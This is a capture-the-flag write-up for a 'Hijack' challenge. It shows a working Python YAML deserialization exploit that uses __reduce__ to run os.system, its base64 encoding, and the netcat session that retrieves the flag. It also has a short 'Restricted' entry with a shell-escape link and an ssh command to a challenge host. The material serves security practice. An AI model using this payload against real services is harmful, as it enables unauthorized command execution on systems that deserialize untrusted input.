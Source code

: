 ## Misc - Hijack
This challenge is about insecure deserialization in Python. When pickle deserialization happens the reduce method is checked for instructions, we overwrite these to read out the flag file.

1)
exploit.py:
```
import os
import yaml

class Payload(object):
    def __reduce__(object):
        command = 'cat flag.txt'
        return(os.system, (command,))

print(yaml.dump(Payload()))
```

2)
Base64 encode the payload
 `python3 exploit.py | base64`
output
 `ISFweXRob24vb2JqZWN0L2FwcGx5OnBvc2l4LnN5c3RlbQotIGNhdCBmbGFnLnR4dAoK`

3)
Connect to the server with netcat
`nc IP PORT`
select the `Load Config` option
```
<------[TCS]------>
[1] Create config                                                                                                                  
[2] Load config                                                                                                                    
[3] Exit                                                                                                                           
>2
Serialized config to load: ISFweXRob24vb2JqZWN0L2FwcGx5OnBvc2l4LnN5c3RlbQotIGNhdCBmbGFnLnR4dAoK                                    
HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}                                                                                   
** Success **                                                                                                                      
Uploading to ship...
```                                                                                      
                     
HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}

## Misc - Restricted
https://d00mfist.gitbooks.io/ctf/content/escaping_restricted_shell.html

`ssh restricted@104.248.169.117 -p 31231`
